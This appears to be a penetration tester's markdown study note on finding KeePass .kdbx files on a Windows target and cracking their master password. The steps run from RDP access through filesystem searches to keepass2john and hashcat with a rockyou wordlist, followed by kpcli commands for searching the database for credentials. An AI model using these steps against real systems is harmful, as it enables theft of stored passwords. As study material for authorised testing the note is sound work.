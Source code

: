 ```yaml
---
title: Password Manager
updated: 2025-05-12 03:10:32Z
created: 2025-04-24 13:36:01Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Crack KeePass database file

1. Connect to target desktop
eg `xfreerdp /v:<target> /u:<user> /p:<password> /w:1200 /h:700`
2. Check all installed programs using powershell, cmd or GUI:

**powershell**
```
$paths = @(
  "HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\*",
  "HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*"
)
$programs = foreach ($path in $paths) {
  Get-ItemProperty $path | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate
}
$programs | Where-Object { $_.DisplayName } | Sort-Object DisplayName
```
OR
```
Get-CimInstance -ClassName Win32_Product | Select-Object Name, Version | Sort-Object Name
```
***Note**: This can be slow and sometimes triggers repair checks on installed MSI apps, so use with caution.*


**cmd**
```
wmic product get name,version
```

3. Search the filesystem for any database files:
kdbx

**powershell**
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyCOntinue
```

**cmd**
```
dir C:\*.kdbx /s /b 2>nul
```
OR
```
for /r C:\ %i in (*.kdbx) do @echo %i 2>nul
```

4. Copy kdbx file to kali and conver with **keepass2john**
`keepass2john Database.kdbx > keepass.hash`
5. Using vi or nano, delete the text **Database:** from the first line of the file (as Keepass users a master password without a username)
6. Check the hashing algorithm (should be AES/Twofish)
`hashcat --help | grep -i "KeePass"`
7. Crack the hash using a rule file with **hashcat**
`hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force`

* * *
## kpcli
### Reading the Keepass Database
1. Open the KeePass Database:
`kpcli --kdb myfile.kdbx`

2. Search for creadentials:
`kpcli --kdb secrets.kdbx
kpcli> search admin`

| Command        | Description                  |
| -------------- | ---------------------------- |
| `ls`           | List groups/folders          |
| `cd /group`    | Navigate into a group        |
| `show myentry` | Show details of an entry     |
| `search term`  | Search entries by keyword    |
| `add`          | Add a new entry              |
| `edit`         | Edit an entry                |
| `rm`           | Delete an entry              |
| `save`         | Save changes to the database |
| `exit`         | Exit the interface           |


* * *
## SAM password cracking